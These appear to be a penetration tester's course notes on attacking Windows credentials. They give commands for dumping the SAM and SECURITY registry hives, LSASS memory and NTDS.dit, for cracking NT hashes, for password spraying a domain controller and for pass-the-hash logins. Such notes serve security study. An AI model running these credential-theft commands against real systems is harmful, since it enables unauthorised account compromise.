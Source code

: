## Attacking SAM 

Registry Hives if you have local admin access on the target.

|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|

#### Locally

```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```
#### Remotely

```shell
crackmapexec smb <ip> --local-auth -u <user> -p <pass> --lsa
```

```shell
crackmapexec smb <ip> --local-auth -u <user> -p <password> --sam
```

#### Cracking SAM
```shell
impacket-secretsdump -sam <sam file> -security <security file> -system <system file> LOCAL
```

```shell
sudo hashcat -m 1000 <NT Hashes> /usr/share/wordlists/rockyou.txt
```



## Attacking LSASS
![[WinLogon.png]]
Upon intial logon LSASS:
- Cache credentials locally in memory
- Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
- Enforce security policies
- Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

#### Dump LSASS 
##### Task manager
![[LSASS DMP.png]]

Outputs to 
```cmd
C:\Users\loggedonusersdirectory\AppData\Local\Temp\lsass.DMP
```

##### CMD
Get LSASS PID
```cmd
tasklist /svc
```
```powershell
 Get-Process lsass
```
Create LSASS.dmp
```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <pid> C:\lsass.dmp full
```


#### Extract LSASS Credentials 
 
##### Pypykatz
```shell
pypykatz lsa minidump lsass.dmp
```
###### [MSV](https://learn.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package)

Authentication package in windows that LSA validates logon attemps against the SAM database, 
###### WDIGEST

Older authentication methods protocol enabled by default Win XP - Win 8  and Server 2003 - 2012
LSASS caches credentials in clear text used by WDIGEST

###### [Kerberos](https://web.mit.edu/kerberos/#what_is)

Network authentication protocol used by AD in Windows domain environments.
LSASS caches passwords, ekeys, tickets and pins. 

###### [DPAPI](https://learn.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection)

Data Protection Application Programming Interface,
Used to encrypt and decrypt data blobs on a per-user basis for Windows OS features.

|Applications|Use of DPAPI|
|---|---|
|`Internet Explorer`|Password form auto-completion data (username and password for saved sites).|
|`Google Chrome`|Password form auto-completion data (username and password for saved sites).|
|`Outlook`|Passwords for email accounts.|
|`Remote Desktop Connection`|Saved credentials for connections to remote machines.|
|`Credential Manager`|Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.|

Mimikatz and Pypykatz can extract the DPAPI master key for the logged on users.

## Attacking Active Directory & NTDS.dit

Need initial foothold on the network 

Once a Windows system is joined to a domain, it will no longer default to referencing the SAM database to validate logon requests.

[Attack technique](https://attack.mitre.org/techniques/T1003/003/)

#### Dictionary Attacks 

Very noisy 

|Username Convention|Practical Example for Jane Jill Doe|
|---|---|
|`firstinitiallastname`|jdoe|
|`firstinitialmiddleinitiallastname`|jjdoe|
|`firstnamelastname`|janedoe|
|`firstname.lastname`|jane.doe|
|`lastname.firstname`|doe.jane|
|`nickname`|doedoehacksstuff|
Using Emails:
	We can often find the email structure by Googling the domain name, i.e., “@inlanefreight.com” and get some valid emails. From there, we can use a script to scrape various social media sites and mashup potential valid usernames. Some organizations try to obfuscate their usernames to prevent spraying, so they may alias their username like a907 (or something similar) back to joe.smith. That way, email messages can get through, but the actual internal username isn’t disclosed, making password spraying harder. Sometimes you can use google dorks to search for “inlanefreight.com filetype:pdf” and find some valid usernames in the PDF properties if they were generated using a graphics editor. From there, you may be able to discern the username structure and potentially write a small script to create many possible combinations and then spray to see if any come back valid.

Create usernames with [Username anarchy](https://github.com/urbanadventurer/username-anarchy)

#### Target the Domain Controller
Attempt to establish username and password
```shell
crackmapexec smb <ip> -u <username> -p <password list>
```
#### Locally 
##### Connect to the DC and Captre NTDS.dit
```shell
evil-winrm -i <ip>  -u <username> -p '<password>'
```

##### Check Local priviliges 
```shell
PS C:\> net localgroup
```

```shell
net user <user>
```

Need local admin or Domain admin
##### Create a shadow copy of C Drive
```shell
PS C:\> vssadmin CREATE SHADOW /For=C:
```
##### Copy NTDS.dit from VSS 
```shell
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

#### Remotely
```shell
crackmapexec smb <ip> -u <user> -p <password> --ntds
```


#### Pass the hash
```shell
evil-winrm -i <ip> -u <user> -H "<hash>"
```
